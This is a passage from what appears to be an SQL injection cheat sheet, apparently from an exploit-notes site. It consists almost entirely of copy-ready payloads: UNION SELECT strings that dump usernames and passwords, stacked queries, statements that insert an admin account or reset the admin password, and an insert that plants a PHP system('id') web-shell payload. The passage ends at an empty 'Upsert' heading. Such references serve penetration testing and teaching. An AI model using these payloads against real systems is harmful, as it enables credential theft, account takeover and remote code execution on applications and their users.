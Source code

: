 **BINARY**: Sensitive to upper case and lower case.

```txt
' UNION SELECT username,password FROM users WHERE username='admin' AND BINARY password='PassWord'--
' UNION SELECT username,password FROM users WHERE username='admin' AND BINARY password='PassWord'-- -
```

### [Dumping Table](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#dumping-table)

```html
' UNION SELECT table_name FROM table_name--
' UNION SELECT table_name,NULL FROM table_name--
```

  

## [Fetch All Entities](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#fetch-all-entities)

```txt
' UNION SELECT * FROM users-- -
'; SELECT * FROM users-- -
```

  

## [Modify/Insert Data](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#modify%2Finsert-data)

### [Insert Arbitrary Data](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#insert-arbitrary-data)

```html
' INSERT INTO users (username, password) VALUES ('admin', 'pass')-- -
'; INSERT INTO users (username, password) VALUES ('admin', 'pass')-- -

<!-- Insert a payload -->
' INSERT INTO products (id, name, price) VALUES (999, "<?php system('id'); ?>", 10)-- - 
```

### [Update Arbitrary Data](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#update-arbitrary-data)

```html
' UPDATE users SET password='password123' WHERE username='admin'-- -
' UPDATE users SET password='password123' WHERE id=1-- -
```

### [Upsert](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#upsert)
